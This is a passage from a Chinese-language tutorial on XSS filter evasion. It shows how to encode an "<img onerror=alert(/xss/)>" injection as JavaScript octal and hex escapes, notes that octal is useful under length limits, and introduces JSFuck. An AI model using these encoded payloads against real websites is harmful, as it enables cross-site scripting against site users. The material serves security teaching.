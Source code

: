 ```js
    console.log(xss_js_to8or16(16, str));
</script>
</html>
```
好了，我们把代码保存为 `xx.html` ，并通过浏览器打开，F12 下看 Console 标签内的内容，就是我们想要的 8进制 与 16进制的内容了。

把拿到的字符串放入我们的例子中，8进制：
```html
<html>
<body>

</body>
<script>
    //进行 JS Unicode 转码前的样子：
    //document.body.innerHTML="<img src='' onerror='alert(/xss/)'/>";
    document.body.innerHTML="\74\151\155\147\40\163\162\143\75\47\47\40\157\156\145\162\162\157\162\75\47\141\154\145\162\164\50\57\170\163\163\57\51\47\57\76";
</script>
</html>
```
16进制：
```html
<html>
<body>

</body>
<script>
    //进行 JS Unicode 转码前的样子：
    //document.body.innerHTML="<img src='' onerror='alert(/xss/)'/>";
    document.body.innerHTML="\x3c\x69\x6d\x67\x20\x73\x72\x63\x3d\x27\x27\x20\x6f\x6e\x65\x72\x72\x6f\x72\x3d\x27\x61\x6c\x65\x72\x74\x28\x2f\x78\x73\x73\x2f\x29\x27\x2f\x3e";
</script>
</html>
```
如果你仔细观察下，会发现， JS 8进制编码的长度要短一些，如果遇到插入长度有所限制的情况就可以用到这个特点。
还有一种叫做 [JSFuck](http://www.jsfuck.com/) 的编码，长什么样呢？
```
```